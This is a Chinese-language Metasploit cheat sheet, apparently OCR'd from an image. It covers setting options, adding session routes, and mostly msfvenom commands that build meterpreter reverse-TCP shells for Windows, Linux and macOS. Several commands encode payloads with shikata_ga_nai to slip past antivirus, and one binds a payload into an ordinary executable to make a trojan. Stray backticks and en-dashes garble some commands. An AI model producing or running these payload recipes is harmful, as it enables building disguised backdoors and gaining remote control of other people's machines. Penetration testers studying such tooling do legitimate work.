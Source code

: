 

## 设置参数运行
```
set  .....

run
```



## 添加路由
```
route add <目标IP> <目标子网掩码>

示例：route add 10.0.0.1 255.0.0.0 1       //最后的1为添加该路由到session 1
```

## 更多实例

- 普通生成

```
msfvenom -p <payload> <payload options> -f <format> -o <path>
msfvenom –p windows/meterpreter/reverse_tcp –f exe –o C:back.exe
```

- 编码处理型

```
msfvenom -p <payload> -e <encoder > -i <encoder times> -n <nopsled> -f <format> -o <path>
msfvenom –p windows/meterpreter/reverse_tcp –i 3 –e x86/shikata_ga_nai –f exe –o C:back.exe
```

- 捆绑

```
msfvenom –p windows `/meterpreter/reverse_tcp` –platform windows –a x86 –x C:nomal.exe –k –f exe –o C:shell.exe
```

- Windows

```
msfvenom –platform windows –a x86 –p windows``/meterpreter/reverse_tcp` `–i 3 –e x86``/shikata_ga_nai` `–f exe –o C:back.exe``Msfvenom –platform windows –a x86 –p windows``/x64/meterpreter/reverse_tcp` `–f exe –o C:back.exe
```

- Linux　　

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
```

- MAC

```
msfvenom -p osx``/x86/shell_reverse_tcp` `LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
```
